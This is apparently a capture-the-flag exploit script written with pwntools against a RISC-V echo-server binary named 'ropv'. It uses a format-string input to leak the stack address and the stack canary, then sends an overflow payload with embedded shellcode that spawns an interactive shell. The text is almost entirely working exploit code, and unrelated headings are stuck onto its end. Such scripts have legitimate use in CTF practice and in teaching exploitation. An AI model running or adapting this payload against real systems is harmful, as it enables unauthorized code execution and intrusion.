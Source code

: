 ```python
#!/usr/bin/python3

from pwn import *

exe = ELF('ropv', checksec=False)

# context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


                c
                ''')
        input()


shellcode = b'\x01\x11\x06\xec\x22\xe8\x13\x04\x21\x02\xb7\x67\x69\x6e\x93\x87\xf7\x22\x23\x30\xf4\xfe\xb7\x77\x68\x10\x33\x48\x08\x01\x05\x08\x72\x08\xb3\x87\x07\x41\x93\x87\xf7\x32\x23\x32\xf4\xfe\x93\x07\x04\xfe\x01\x46\x81\x45\x3e\x85\x93\x08\xd0\x0d\x93\x06\x30\x07\x23\x0e\xd1\xee\x93\x06\xe1\xef\x67\x80\xe6\xff'
def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('')
else:
    p = process('qemu-riscv64 -g 4000 ropv'.split())

GDB()
sla(b"Echo server: ", b"%p %9$p")
stack = int(p.recvuntil(b" ", drop=True), 16)
canary = int(p.recvline(keepends=False), 16)
info("stack: " + hex(stack))
info("canary: " + hex(canary))
payload = b"a" * 8 + p64(canary) + b'a'*8+ p64(stack+32) + shellcode
sla(b"Echo server: ", payload)

p.interactive()
```

# write me a book

## Ý tưởng
